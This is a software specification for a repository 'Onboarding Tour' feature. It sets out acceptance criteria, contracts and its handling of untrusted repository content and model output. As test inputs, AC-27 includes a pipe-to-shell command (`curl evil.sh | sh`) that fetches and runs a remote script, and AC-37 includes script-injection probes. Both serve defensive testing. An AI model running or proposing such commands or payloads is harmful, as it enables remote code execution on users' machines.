

# Spec: Onboarding Tour — a five-part guided tour of an unfamiliar repository
Spec ID: SPEC-2026-10-02-onboarding-tour
Status: approved
Tier: Full SDD — scorecard 5/6
Supersedes: none (replaces the unused onboarding scaffolding: its section set and its empty-state copy describe a different five sections)
Packages: server, client
Design sources:
- `specs/designs/onboarding-tour/tour-top.png`: the Onboarding Tour page. It has a breadcrumb `<repo> > Onboarding Tour`, a sidebar item under WORKSPACE, an "ON THIS PAGE" anchor list of the five sections, a title and subline, Regenerate and Share link buttons, and collapsible cards. Architecture overview is prose plus a box-and-arrow diagram. Critical paths are rows of path, reason and Open.
- `specs/designs/onboarding-tour/tour-run-and-reading.png`: How to run locally (numbered command rows with copy buttons) and Guided reading path (a numbered list of files with a one-line reason each).
- "First tasks" has no frame. Its layout follows the Critical paths rows (decided below).
- User text, 2026-10-02, the lab task translated from Ukrainian:
  - a tour of an unfamiliar repo in five parts: architecture overview, critical paths, how to run locally, guided reading path, first tasks;
  - facts are collected deterministically;
  - the reading path comes from the import graph;
  - one structured LLM call writes the five sections;
  - a degraded index or a failed call shows a deterministic skeleton with an honest status;
  - the demo opens honojs/hono and checks the number of LLM calls and the cost in the logs.

## Problem and user

A developer who is new to a repository connected to DevDigest has nowhere to start. They don't know:
- what the system is made of;
- which files matter most;
- how to run it;
- what to read first;
- what to try first.

DevDigest already indexes every cloned repository: its files, import graph and file importance. Nothing turns that index into something a person can read. The sidebar has no Onboarding Tour item. Placeholders exist (a storage slot for one tour per repository, a selectable "Onboarding Tour" model in Settings, a prompt and page copy), but they describe a different set of sections, and nothing generates or shows a tour.

The reader is a person new to the repository. The tour is for humans only: review agents never see it.

## Outcome and metrics

- Outcome: for any cloned repository, one click produces a five-section tour grounded in the repository's real files, and the page always says honestly how complete it is.
- Metrics:
  - every generation makes at most 1 LLM call: 0 when the index is unavailable, 1 otherwise. It writes exactly one log line with the call count and the cost (verified by test, 100%);
  - every file path shown in Critical paths, Guided reading path and First tasks exists in the repository at the commit the tour was built from (verified by test, 100%);
  - every command shown in How to run locally is backed by a file in the repository (verified by test, 100%);
  - zero generations leave the API process down or the page stuck in "generating".

## Goals / Non-goals

Goals:
- A per-repository Onboarding Tour page with five sections in a fixed order: Architecture overview, Critical paths, How to run locally, Guided reading path, First tasks.
- Facts are collected deterministically from the clone and the code index: stack, structure, routes, run commands, ranked files, index coverage.
- One structured LLM call per generation turns the facts into prose, reasons and first tasks. The file lists, their order and the commands stay deterministic.
- A deterministic skeleton with an honest status when the index is unavailable, the call fails or the call times out.
- Generation on demand only (Generate, then Regenerate). The latest tour is persisted per repository.
- The LLM call count, tokens and cost of every generation are logged. The page shows the call count, the cost and the model (AC-14); tokens appear in the log only.

Non-goals:
- Injecting the tour into review prompts, or into any agent's context.
- Automatic generation after cloning, indexing or resync.
- Building a tour without a local clone, for example from the GitHub API.
- Recent-change activity ("hotness") in the reading order: DevDigest keeps no change history, so it is 0 today. Keeping history is a separate repo-intel decision.
- Changing which files the code index covers (the first 5,000 supported files in walk order) or which languages it reads.
- Publishing or sharing a tour outside this machine. Share link copies the local page address only.
- An in-app file viewer. Open goes to GitHub.
- A tour history, diffing two tours, or editing a tour.
- Languages other than English, for the page or for the generated text.
- Changing the default model of the Onboarding Tour feature. It stays as registered, and the demo picks its model in Settings.
- Not accepted UX proposals, kept as future notes only:
  - a per-section "from code" / "AI-written" badge;
  - an importer count as a reading-path hint beyond the deterministic reason;
  - an "AI summary unavailable" mark on every card.

## User stories

- As a developer new to a repo, I open Onboarding Tour, press Generate, and within about a minute I read what the system is, its key files, how to run it, what to read in which order, and what to try first.
- As that developer, I copy the install and dev commands one by one and trust that each comes from the repo's own files, not from invented text.
- As that developer, I see on the page when the tour is partial, built without AI, or out of date, and I can regenerate it.
- As the operator, I check the server log after a generation and see how many LLM calls it made and what it cost.

## Acceptance criteria (EARS)

### Navigation and page

- **AC-1** WHILE a repository is active, the sidebar shall show an "Onboarding Tour" item in the WORKSPACE group that opens that repository's Onboarding Tour page, and the item shall be marked active while that page is shown — proof: red-first unit — verify: render the shell with an active repo; expect an "Onboarding Tour" link to that repo's tour page; render it on the tour page; expect the item marked active.
- **AC-2** WHILE the add-repository screen is shown, the sidebar shall not mark "Onboarding Tour" active — proof: red-first unit — verify: render the shell on the add-repository screen; expect no active "Onboarding Tour" item.
- **AC-3** WHEN a tour is shown, the page shall show the five sections in this order (Architecture overview, Critical paths, How to run locally, Guided reading path, First tasks), and an "On this page" list with the same five entries — proof: red-first unit — verify: render a stored tour; expect five section headings in that order and five anchor entries in the same order.
- **AC-4** WHEN the user activates an entry in the "On this page" list, the page shall bring that section into view — proof: red-first unit — verify: click "First tasks"; expect the First tasks section scrolled into view.
- **AC-5** WHEN the user activates a section's header, the page shall collapse that section's body, and a second activation shall expand it again — proof: red-first unit — verify: click the "Critical paths" header; expect its rows hidden; click again; expect them shown.

### States before a tour exists

- **AC-6** WHEN the page opens for a cloned repository with no stored tour, the system shall show a "Generate onboarding tour" empty state and shall make no LLM call — proof: red-first integration — verify: open the tour endpoint for a cloned repo without a tour, with a counting mock LLM; expect state `none` and 0 calls.
- **AC-7** IF the repository is not cloned yet, THEN the page shall show "This repository isn't cloned yet", with no tour and no Generate control, and a generation request shall be refused without an LLM call — proof: red-first integration — verify: request generation for a repo with no clone; expect a `not_cloned` refusal and 0 mock LLM calls. Then render the page in that state; expect the notice and no Generate button.
- **AC-8** WHILE a generation for the repository is in progress, the page shall show a generating state and disable Generate and Regenerate — proof: red-first unit — verify: render the page with state `generating`; expect the progress indicator and a disabled Regenerate.

### Generation

- **AC-9** WHEN the user presses Generate or Regenerate, the system shall start a generation in the background and answer at once, and the page shall show the result when the generation ends without a reload — proof: red-first integration — verify: request generation with a mock LLM that waits on a gate. Expect an immediate `generating` answer and state `generating` on the next read. Release the gate; expect state `ready` on the next read.
- **AC-10** WHEN a generation runs against an available or partial index, the system shall make exactly one LLM call and shall not retry it on failure — proof: red-first integration — verify: generate once with a mock LLM that succeeds; expect 1 call. Generate again with a mock that throws; expect 1 call, not 2.
- **AC-11** IF a generation for the repository is already in progress, THEN a second request shall be refused as "already generating" and shall make no LLM call — proof: red-first integration — verify: start a generation held by a gated mock; request a second; expect `already_generating` and the mock call count still 1.
- **AC-12** WHEN a generation ends, the system shall persist the result as the repository's tour (except in the case AC-25 governs), and opening the page later shall show it without a new LLM call — proof: red-first integration — verify: generate, then read the tour twice; expect the same tour both times and the mock call count still 1.
- **AC-13** WHEN a generation ends, the system shall write one log line that names the repository, the provider and model, the number of LLM calls, the input and output tokens, the cost in USD (or "—" when no price is known), the outcome and the duration — proof: red-first integration — verify: generate with a mock that reports 1,200/300 tokens and $0.0021; expect exactly one generation log line containing `llm_calls=1`, `tokens 1200/300`, `$0.0021` and the outcome `complete`. With a mock that reports no price, expect `—`.
- **AC-14** WHEN a tour is shown, the subline shall show "<n> LLM call(s) · <cost> · <provider/model>", with "—" for the cost when none was recorded — proof: red-first unit — verify: render a tour with 1 call and cost 0.0021; expect "1 LLM call · $0.0021 · openrouter/…". Render one with a null cost; expect "—". Render a skeleton with 0 calls; expect "0 LLM calls".
- **AC-15** WHEN a tour is shown, the subline shall show the tour's age ("generated <relative time>").
  - WHILE the tour's index status is `full`, the subline shall also show "Generated from index of <N> files".
  - WHILE the index status is `partial`, it shall show "Indexed <N> of <M> files · partial index" instead.
  - WHILE the index status is `unavailable` or `unsupported_languages`, it shall show the age only, with no index text. The status line or section notices explain why.
  - N is the number of files indexed.
  - M is the number of files in the clone with a supported extension, outside the excluded folders.
  - The tour's index status is `partial` when the index reports itself partial, OR when N < M. The second case covers an index that stopped at its file cap or skipped oversized files but still reports itself complete.

  — proof: red-first unit — verify:
  - render a full-index tour with N = M = 812, generated 2 hours ago; expect "Generated from index of 812 files" and "generated 2h ago";
  - render a partial tour with 5,000 of 12,450; expect "Indexed 5,000 of 12,450 files · partial index";
  - render an `unavailable` tour and an `unsupported_languages` tour, each generated 2 hours ago; expect "generated 2h ago" and no "index of";
  - and red-first integration: an index that reports itself complete with 5 files indexed in a clone of 7 supported files; generate; expect index status `partial`, 5 of 7.
- **AC-16** The system shall not include any part of a tour in any review prompt — proof: red-first integration — verify: store a tour whose overview contains a unique marker string; run a review of a PR in the same repo with a mock LLM; expect the marker absent from every prompt the mock received.

### Honest status and fallback

- **AC-17** IF the LLM call fails or returns output that does not match the tour structure, THEN the system shall (unless AC-25 applies) persist and show the deterministic skeleton with the status line "AI summary failed — showing facts from code only" — proof: red-first integration — verify: a mock LLM that throws, and a second that returns malformed output; expect a stored tour with source `skeleton`, reason `llm_failed`, `llm.calls` = 1, and the status line rendered.
- **AC-18** IF the LLM call has not returned 90 s after the request was sent, counting any retry or wait inside the provider, THEN the system shall abandon it and (unless AC-25 applies) persist and show the skeleton with the status line "AI summary timed out after 90 s — showing facts from code only", and record the cost as unknown — proof: red-first integration — verify: a mock LLM that never resolves, and a second whose every attempt waits 60 s and is retried once inside the provider, each under a fake clock advanced past 90 s from the request; for both, expect reason `timed_out`, `llm.calls` = 1, `cost_usd` null, one log line with outcome `timed_out`, and the generation ended (state `ready`).
- **AC-19** IF the code index of a repository that has supported source files is unavailable (never built, degraded or failed), THEN the system shall make no LLM call and (unless AC-25 applies) shall persist and show the skeleton with the page status line "The code index isn't ready — showing what can be read without it. Resync the repository to build the index." — proof: red-first integration — verify: a cloned fixture with `.ts` files and an index in state `degraded`; generate; expect 0 mock calls, reason `index_unavailable`, and the status line.
- **AC-20** WHILE the code index is partial, the system shall generate the tour with the LLM from the indexed files only, and mark the tour `partial` — proof: red-first integration — verify: a fixture index in state `partial` covering 3 of 5 files; generate; expect 1 LLM call, index status `partial`, and no file outside the 3 indexed ones in Critical paths or Guided reading path.
- **AC-21** IF the clone contains no file with an extension the code index reads (`.ts`, `.tsx`, `.js`, `.jsx`, `.mjs`, `.cjs`), THEN the system shall generate the tour with the LLM from the README and manifests, and show "Reading order is unavailable for this repository's languages" in place of Critical paths and Guided reading path — proof: red-first integration — verify: a fixture clone with only `.py` files, a `README.md` and a `pyproject.toml`; generate; expect 1 LLM call, index status `unsupported_languages`, empty critical and reading lists, and the notice rendered in both sections.
- **AC-22** WHEN the skeleton is built, it shall contain:
  - an Architecture overview listing the detected stack and the top-level folders with their file counts, with no prose and no diagram;
  - Critical paths and Guided reading path from the index, each with its deterministic reason. When no ranking exists, each of the two sections shows the section notice "Reading order needs the code index", or the AC-21 notice for unsupported languages;
  - the commands of AC-28;
  - First tasks as the orientation checklist of AC-35, written into the stored tour by the server.

  — proof: red-first unit — verify: build a skeleton from fixed facts (stack TypeScript + pnpm, folders `src` 40 and `test` 12, three ranked files); expect those stack and folder rows, three reading rows with "imported by N files" reasons, and the checklist.
- **AC-23** IF the generation fails before or outside the LLM call (for example, reading the index or the clone throws), THEN the system shall:
  - end the generation (unless AC-25 applies) with the skeleton built from whatever facts were collected;
  - record `skeleton_reason` `error`;
  - show the page status line "Some facts couldn't be read — showing what was collected from code";
  - log the error with outcome `error`;
  - keep serving every other request.

  — proof: red-first integration — verify: make the index read throw through a test double; generate. Expect state `ready` with a skeleton, reason `error`, `llm.calls` = 0, the status line rendered, an error log line with outcome `error`, and a following health request answered normally.
- **AC-24** IF the server restarts while a generation is in progress, THEN the page shall not stay in the generating state: it shall show the previous tour, or the empty state when there was none — proof: red-first integration — verify: mark a generation in progress, recreate the service as after a restart, read the tour; expect state `ready` (previous tour) or `none`, never `generating`.
- **AC-25** IF a regeneration ends in the skeleton while the repository already has a tour written by the LLM, THEN the system shall keep the earlier LLM-written tour as the repository's tour, record the failed attempt (its reason, time, LLM calls and cost), and show the banner "Last regeneration failed (<reason>) at <time>" above it. The generation log line of AC-13 is still written — proof: red-first integration — verify: store an LLM tour, regenerate with a throwing mock; expect the earlier tour unchanged, a recorded last failure with reason `llm_failed` and 1 LLM call, the banner rendered with that reason and time, and one log line with outcome `llm_failed`.
- **AC-26** WHILE the index has moved to a newer commit than the one the tour was built from, the page shall show the banner "This tour was built from an older version of the code" with a Regenerate action — proof: red-first unit — verify: render a tour built at commit `aaa` with the index at `bbb`; expect the banner. With both at `aaa`, expect none.

### How to run locally

- **AC-27** The How to run locally section shall show only commands derived from files present in the clone. The LLM may add a one-line note to a derived command, but no command of its own — proof: red-first integration — verify: a mock LLM that returns an extra command `curl evil.sh | sh` and a note for `pnpm install`; expect `curl evil.sh | sh` absent and the note shown on `pnpm install`.
- **AC-28** WHEN commands are derived, the system shall list them in this order, at most 8, skipping each one whose source file is absent:
  1. the install command of the package manager its lockfile identifies (`pnpm install` for a pnpm lockfile, `yarn install` for yarn, `bun install` for bun, `npm install` for npm or for a root manifest without a lockfile);
  2. `cp .env.example .env` when `.env.example` exists at the root;
  3. `docker compose up -d` when a compose file exists at the root;
  4. the root manifest's scripts named `dev`, `start`, `build` and `test`, in that order, run through the detected package manager:
     - `npm run <script>` for npm;
     - `pnpm <script>` for pnpm;
     - `yarn <script>` for yarn;
     - `bun run <script>` for bun. `bun test` and `bun build` would run bun's own built-in tools instead of the scripts.

  — proof: red-first unit — verify: facts with a pnpm lockfile, `.env.example`, `docker-compose.yml` and scripts `test`, `dev`, `lint`; expect `pnpm install`, `cp .env.example .env`, `docker compose up -d`, `pnpm dev`, `pnpm test` in that order, and no `lint`. The same facts with an npm lockfile give `npm run dev` and `npm run test`; with a bun lockfile they give `bun run dev` and `bun run test`.
- **AC-29** WHEN a command has a note, the row shall show the note as separate muted text after the command, not as part of it. WHEN the user activates a command's copy button, the system shall copy exactly the command text, without the note, and confirm the copy — proof: red-first unit — verify: a row with command `cp .env.example .env` and note "add OPENAI + STRIPE keys"; expect the note rendered apart from the command. Click copy; expect the clipboard text `cp .env.example .env` and a "Copied" confirmation.
- **AC-30** IF no command can be derived, THEN the section shall show "No run commands found in this repository's manifests" — proof: red-first unit — verify: render a tour with an empty command list; expect the notice.

### Critical paths and Guided reading path

- **AC-31** The system shall order the Guided reading path by each file's import-graph rank (PageRank over the import graph) multiplied by (1 + recent-change activity), where recent-change activity is 0 while no change history exists. Ties go by path, ascending. Tests, configs, declaration files and migrations are left out, and the list holds at most 10 files — proof: red-first unit — verify: four ranked files with ranks 0.4, 0.2, 0.2 and 0.1, one of them `src/a.test.ts`, and activity 0; expect the three non-test files in rank order, with the tie broken by path.
- **AC-32** The Guided reading path section shall state "Ordered by how many files depend on it" — proof: red-first unit — verify: render a tour with a reading path; expect that text in the section.
- **AC-33** The system shall take Critical paths (at most 5 files) from the files on the highest-ranked import chains of the index. The LLM may write each file's one-line reason, but it may not add, remove or reorder files. IF the LLM gives no reason for a file, THEN the deterministic reason "imported by <N> files" shall be shown. The same rule applies to the reading path — proof: red-first integration — verify: a mock LLM that returns a reason for one of three critical files and an extra file `src/ghost.ts`; expect the three index files in index order, the LLM reason on one, "imported by N files" on the other two, and no `src/ghost.ts`.
- **AC-34** WHEN the user activates Open on a Critical paths row, the system shall open that file on GitHub at the commit the tour was built from, in a new tab — proof: red-first unit — verify: a tour of `honojs/hono` built at commit `abc123`; click Open on `src/hono.ts`; expect a link to `https://github.com/honojs/hono/blob/abc123/src/hono.ts` that opens in a new tab.

### First tasks

- **AC-35** WHEN a tour is built and the LLM returned usable first tasks, the system shall store at most 5 tasks, each a short title with a real file path and a one-line reason. IF there is no usable task (the skeleton, an LLM answer with no tasks, or every task dropped by AC-36), THEN the server shall store the orientation checklist as the first-task items. Each item is a title with no path and a deterministic reason source:
  1. "Run the project with the commands above";
  2. "Run the test suite";
  3. "Read file 1 of the reading path";
  4. "Make a small change and see it run".

  The server leaves out each step whose prerequisite is missing:
  - no derived commands → no step 1;
  - no derived command for the `test` script → no step 2;
  - an empty reading path → no step 3.

  The client renders the stored items only, laid out like the Critical paths rows, and builds no checklist of its own.

  — proof: red-first unit — verify: build a tour from an LLM answer with two valid tasks; expect two items with path and reason. Build a skeleton whose derived commands have no `test` command; expect three checklist items without "Run the test suite", each with no path and reason source `deterministic`.
- **AC-36** IF a task, a critical path or a reading-path entry from the LLM names a file that does not exist at the tour's commit, THEN the system shall drop that entry, and IF all tasks are dropped, THEN the stored first-task items shall be the checklist of AC-35 — proof: red-first integration — verify: a mock LLM that returns tasks for `src/real.ts` and `src/ghost.ts`; expect only the `src/real.ts` task stored. With only ghost paths, expect the checklist items stored.

### Architecture overview

- **AC-37** WHEN the overview prose is shown, the system shall render it as Markdown with no raw HTML, no executable markup and no active `javascript:` link, and with file paths as inline code — proof: red-first unit — verify: overview text with `<script>`, ``, `[x](javascript:alert(1))` and `` `src/server.ts` ``; expect no script element, no handler attribute, no `javascript:` href, and a code element for the path.
- **AC-38** WHEN the overview carries a diagram with at most 12 nodes that parses, the page shall render it under the prose. IF the diagram does not parse or has more than 12 nodes, THEN the page shall show no diagram and keep the prose — proof: red-first unit — verify: a valid 5-node flowchart → diagram shown. A diagram with a syntax error, and one with 13 nodes → no diagram, prose shown.

### Share link

- **AC-39** WHEN the user activates Share link, the system shall copy the address of this repository's Onboarding Tour page to the clipboard and confirm the copy — proof: red-first unit — verify: click Share link; expect the clipboard to hold the tour page address and a "Link copied" confirmation.

### Cost bound

- **AC-41** WHEN the model input is assembled, the system shall include at most 50 routes, at most the first 4,000 characters of the README, at most 20 top-level folders, and no more files than the caps of the critical and reading lists, whatever the repository's size — proof: red-first unit — verify: facts with 120 routes, a 10,000-character README and 35 top-level folders; expect an input with 50 routes, 4,000 README characters and 20 folders.

### End to end

- **AC-40** WHEN the operator generates a tour for honojs/hono on the dev stack with a model chosen in Settings, the page shall show the five sections, and the server log shall show one generation line with the LLM call count and the cost — proof: browser (main session) — verify: on the dev stack, add `honojs/hono` and wait for the clone and index. Pick the Onboarding Tour model in Settings, open Onboarding Tour and press Generate. Read the five sections, check that Open on one critical path reaches GitHub, and copy one command. Find the generation log line; expect `llm_calls=1` and a USD cost or "—". Take screenshots for the PR. This is not an e2e flow, because flows ban LLM calls and the hermetic seed has no clone. The behaviour is covered by the integration tests above with a mock LLM.

## Edge cases

- The repository has fewer ranked files than the caps: the lists are shorter, and no placeholder rows are added.
- The index has a ranking but no import edges (every file isolated): the reading path is ordered by path, since every rank ties. Critical paths are empty and show "No import chains found in the index".
- A partial index whose ranking step did not run: Critical paths and the reading path show the section notice "Reading order needs the code index" (AC-22), and the LLM call still runs (AC-20) with no ranked files. The page status line of AC-19 is not shown.
- Both a pnpm and an npm lockfile: the first match in the order pnpm, yarn, bun, npm wins.
- No root manifest but `.env.example` or a compose file: only those commands are shown.
- Very long paths: the path wraps or truncates with the full path on hover, and the Open and copy buttons stay visible.
- Two tabs on the same repository: both see `generating` and then the same tour (AC-11, AC-12).
- The repository is deleted during a generation: the generation ends without persisting, and no error reaches other requests.
- The default model of the Onboarding Tour feature is known to stall on structured output: the 90 s bound turns a stall into the `timed_out` skeleton (AC-18). The demo picks a model in Settings.
- An old stored tour from before this spec (no status or meta fields): treated as absent, and the page shows the empty state.
- A resync while a tour is shown: the stale banner appears (AC-26). Nothing regenerates automatically.

## Non-functional requirements

- Performance:
  - Opening the page reads the stored tour and makes no LLM call: none beyond existing.
  - The LLM call is bounded at 90 s (AC-18). With deterministic collection over the existing index, a generation ends (tour or skeleton) before the background-job limit of 120 s.
- Cost:
  - At most 1 LLM call per Generate or Regenerate press; 0 on page open and 0 when the index is unavailable (AC-6, AC-10, AC-19).
  - The model input does not grow with the repository's file count. It is built only from capped facts: the list caps of this spec, at most 50 routes, the first 4,000 characters of the README, and at most 20 top-level folders.
  - This threshold must hold, so it is AC-41.
  - Every generation's calls, tokens and cost are logged (AC-13) and shown (AC-14).
- Security and privacy:
  - Repository content (README, manifests, file names, code) is untrusted. It reaches the model only fenced as data, under an instruction that it is not instructions.
  - Model output is untrusted: rendered sanitised (AC-37), diagrams validated (AC-38), paths checked against the index (AC-33, AC-36).
  - Commands come only from repository files, never from model text (AC-27, AC-28). Copying a command never runs it.
  - Open goes only to `https://github.com/<owner>/<name>/blob/<sha>/<path>`, built from stored values; never a model-supplied URL.
  - Repository facts and the README excerpt are sent to the selected LLM provider, as for other system features. No privacy notice is added.
- Accessibility:
  - Collapsible headers, anchor entries, copy buttons and Open are keyboard-operable and have accessible names.
  - Status lines are text, not colour only.
  - Otherwise none beyond existing.
- i18n:
  - Every new UI string goes through the client's message namespaces, English only.
  - The generated text is English.
  - The existing onboarding empty-state copy that lists other sections is replaced to name the five sections of this spec.
- Reliability:
  - No retry of the paid call (AC-10).
  - A failed generation never takes the API process down and always ends in a recorded state (AC-23).
  - No stuck generating state after a restart (AC-24).
  - One generation per repository at a time (AC-11).

## Workflows and module communication

Generation:



Which content each section takes:

```mermaid
flowchart TD
  start((generation)) --> cloned{cloned?}
  cloned -->|no| nc[refuse: not cloned]
  cloned -->|yes| sup{supported source files?}
  sup -->|no| unsup[LLM tour from README + manifests; no critical or reading lists]
  sup -->|yes| idx{index state}
  idx -->|unavailable| skel[skeleton, 0 calls, index_unavailable]
  idx -->|full or partial| call[1 LLM call]
  call -->|ok| tour[tour: deterministic lists + LLM prose and reasons]
  call -->|fail| skel2[skeleton, llm_failed]
  call -->|90 s| skel3[skeleton, timed_out]
```

If the provider is slow, the 90 s bound applies. If the index or clone can't be read, AC-23 applies. Review runs never read the tour (AC-16).

## Contracts

All JSON is snake_case. These shapes describe behaviour; the plan decides where they live. The existing onboarding section shape (`kind`, `title`, `body`, `diagram`, `links`) is extended additively with nullable fields.

- **Read the tour:** `GET /repos/:id/onboarding` →
  - `cloned` — boolean;
  - `state` — `none | generating | ready`;
  - `index_commit_sha` — string or null, the index's current commit, for AC-26;
  - `tour` — null, or the object below.
- **Start a generation:** `POST /repos/:id/onboarding/generate`.
  - Success: 202 with `{ state: "generating" }`.
  - A refusal uses the existing error envelope:
    - `not_cloned` → 409;
    - `already_generating` → 409;
    - unknown repository → 404;
    - a malformed repository id → 422.
  - The read route answers the same 404 and 422.
- **Tour object:**
  - `generated_at` — ISO string;
  - `commit_sha` — the commit the tour was built from;
  - `source` — `llm | skeleton`;
  - `skeleton_reason` — `llm_failed | timed_out | index_unavailable | error`, or null;
  - `index`: `{ status: full | partial | unavailable | unsupported_languages, files_indexed: int, files_total: int }`;
  - `llm`: `{ calls: 0 | 1, provider (nullish), model (nullish), tokens_in (nullish), tokens_out (nullish), cost_usd (nullish), duration_ms (nullish) }`;
  - `last_failure` — nullish `{ reason: llm_failed | timed_out | index_unavailable | error, at, llm }`, set when a regeneration failed and the earlier LLM tour was kept (AC-25);
  - `sections` — exactly five, in order, with `kind` one of `architecture | critical_paths | run_locally | reading_path | first_tasks`, and each with the existing fields plus:
    - `items` — nullish array of `{ path (nullish), title (nullish), reason (nullish), command (nullish), note (nullish), reason_source: llm | deterministic }`;
    - `notice` — nullish string, for the section notices of AC-21, AC-22, AC-30 and Edge cases.
- **Generation log line:** one per generation. Fields: repo full name, `provider/model`, `llm_calls=<n>`, `tokens <in>/<out>`, `$<cost>` or `—`, the outcome (`complete | partial | llm_failed | timed_out | index_unavailable | error`), and the duration.

## Inputs and provenance

- Index state, file counts, ranked files, import chains [deterministic: repo-intel]
- Routes [deterministic: repo-intel per-file facts]
- Stack, package manager, lockfiles, root scripts, `.env.example`, compose file, top-level folders and their file counts [deterministic: new scan of the default-branch clone]
- README excerpt [deterministic: read from the clone]
- Reading-path order [deterministic: import-graph rank × (1 + activity), activity 0]
- Overview prose, diagram, per-file reasons, command notes, first tasks [new: 1 LLM call per generation, model from the Settings feature "Onboarding Tour"]
- Commit sha for Open and staleness [reused: index state]
- Design inputs [reused: the two frames above]
- Decisions behind this spec:
  - user answers (Glib, 2026-10-02): Q1 a, Q4 a, Q8 b;
  - Q2 a, Q3 a, Q5 a, Q6 a (checklist in the skeleton), Q7 a and N1–N10 accepted as recommended;
  - UX proposals not accepted.
  - user answers (Glib, 2026-10-02): NC-1 a, NC-2 as recommended.
  - spec-creator's concrete readings, reviewed and not vetoed by Glib (2026-10-02):
    - the lockfile precedence pnpm > yarn > bun > npm;
    - the four script names `dev`, `start`, `build`, `test`. Q7a named "dev, start, test, …"; `build` is added;
    - the section notices "No import chains found in the index" and "Reading order needs the code index";
    - an old-format stored tour is treated as absent;
    - a repository deleted mid-generation ends without persisting;
    - the wording of the orientation checklist (AC-35) and of the status lines (AC-17, AC-18, AC-19, AC-26).

## Untrusted inputs

- **Repository files** (README, manifests, file names, code, authored by anyone with commit access):
  - sent to the model only as fenced data under a trusted instruction that they carry no instructions;
  - never the source of a shown command (AC-27);
  - paths are shown as text and inline code, never as raw HTML.
- **Model output:**
  - prose rendered sanitised (AC-37);
  - diagram validated and dropped if invalid or too large (AC-38);
  - paths kept only if they exist (AC-33, AC-36);
  - commands it invents are dropped (AC-27);
  - it never supplies a URL (Open is built from stored values).
- **Manifest script names:** only the four named scripts are shown (AC-28). Script bodies are never shown or run.

## Open questions

- Decided NC-1 (Glib, 2026-10-02): a. Keep the earlier LLM-written tour and show the "Last regeneration failed (<reason>) at <time>" banner (AC-25).
- Decided NC-2 (Glib, 2026-10-02): the model input holds at most 50 routes, the first 4,000 README characters and at most 20 top-level folders (Cost NFR, AC-41).

## Traceability

| AC | proof | verify | step | test | commit |
|---|---|---|---|---|---|
| AC-1 | red-first unit | sidebar item links to the repo's tour page, active there | — | — | — |
| AC-2 | red-first unit | not active on the add-repository screen | — | — | — |
| AC-3 | red-first unit | five headings and five anchors in order | — | — | — |
| AC-4 | red-first unit | anchor click scrolls to the section | — | — | — |
| AC-5 | red-first unit | header collapses and expands | — | — | — |
| AC-6 | red-first integration | no tour → state `none`, 0 LLM calls | — | — | — |
| AC-7 | red-first integration | not cloned → refusal, 0 calls, notice, no Generate | — | — | — |
| AC-8 | red-first unit | generating → progress, Regenerate disabled | — | — | — |
| AC-9 | red-first integration | gated mock: immediate `generating`, then `ready` | — | — | — |
| AC-10 | red-first integration | 1 call on success, 1 (not 2) on failure | — | — | — |
| AC-11 | red-first integration | second request → `already_generating`, calls still 1 | — | — | — |
| AC-12 | red-first integration | persisted; two reads, no new call | — | — | — |
| AC-13 | red-first integration | one log line: calls, tokens, cost or "—", outcome | — | — | — |
| AC-14 | red-first unit | subline calls · cost · model; "—" for null | — | — | — |
| AC-15 | red-first unit + red-first integration | "index of N files", age; partial "N of M"; `unavailable` / `unsupported_languages` → age only, no "index of"; self-reported complete index with N < M → `partial` | — | — | — |
| AC-16 | red-first integration | tour marker absent from review prompts | — | — | — |
| AC-17 | red-first integration | throw or malformed → skeleton `llm_failed` | — | — | — |
| AC-18 | red-first integration | never-resolving mock past 90 s → `timed_out`, cost null | — | — | — |
| AC-19 | red-first integration | degraded index → 0 calls, `index_unavailable` | — | — | — |
| AC-20 | red-first integration | partial index → 1 call, only indexed files | — | — | — |
| AC-21 | red-first integration | `.py`-only clone → 1 call, notice in both sections | — | — | — |
| AC-22 | red-first unit | skeleton content from fixed facts | — | — | — |
| AC-23 | red-first integration | index read throws → skeleton, reason `error`, 0 calls, status line, error log, API serves | — | — | — |
| AC-24 | red-first integration | restart mid-generation → never stuck `generating` | — | — | — |
| AC-25 | red-first integration | failed regenerate over an LLM tour → earlier tour kept, failure recorded, banner, log line | — | — | — |
| AC-26 | red-first unit | stale banner when commits differ | — | — | — |
